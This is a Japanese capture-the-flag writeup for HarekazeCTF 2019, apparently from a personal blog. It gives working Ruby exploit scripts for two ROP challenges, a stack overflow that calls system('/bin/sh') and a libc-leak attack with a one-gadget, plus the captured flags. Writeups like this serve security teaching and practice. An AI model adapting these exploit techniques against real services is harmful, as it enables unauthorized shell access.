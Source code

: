 ```yaml
---
title: "HarekazeCTF 2019 writeup"
date: 2019-05-19T16:54:53+09:00
draft: false
categories: 
- writeup

---
```


## Baby ROP 1

- バイナリ中で、`system` 関数使ってechoしており、Canary等もないBOFが起こるので、`pop rdi; ret` 使って`system(/bin/sh)` を呼ぶだけ

```ruby
#!/usr/bin/env ruby

require 'pwn'

context.log_level = :debug
z = Sock.new "problem.harekaze.com", 20001

pop_rdi_ret = p64(0x00400683)
system = p64(0x4005e3)

STDIN.gets
z.recvuntil "? "
payload = "A" * 24
payload << pop_rdi_ret
payload << p64(0x601048)
payload << system

z.sendline payload

z.interact
```

- **HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}**

## Baby ROP 2

- `system` 関数などは、存在しないが、libc が配布されているので、ROPでlibcアドレスリークして、One-Gagdet に飛ばすだけ

```ruby
#!/usr/bin/env ruby

require 'pwn'

context.log_level = :debug
z = Sock.new "problem.harekaze.com", 20005
#z = Sock.new "localhost", 9999
elf = ELF.new "./babyrop2"
libc = ELF.new "./libc.so.6"
#libc = ELF.new "./mylibc.so.6"

pop_rdi_ret = p64(0x00400733)
z.recvuntil "? "

payload = "A" * 40
payload << pop_rdi_ret
payload << p64(elf.got["__libc_start_main"])
payload << p64(0x4004f0)
payload << p64(elf.symbols["main"])
STDIN.gets
z.sendline payload

recvlen = "Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!\n".length
data = z.recvuntil "? "
p data
libc_base = u64(data[recvlen, 6].ljust(8, "\x00")) - libc.symbols["__libc_start_main"]
libc_magic = libc_base + 0xf02a4
puts "libc base 0x%x" % libc_base
puts "libc magic 0x%x" % libc_magic

payload = "B" * 40
payload << p64(libc_magic)
z.sendline payload

z.interact
```

- **HarekazeCTF{u53_b55_53gm3nt_t0_pu7_50m37h1ng}**

## Login

- 解けなかった、脆弱性わからず

## Harekaze Note

- Note の削除時に何も考慮してないため、Heapアドレスのリークやdouble freeができるが、そこから攻撃に繋げられず
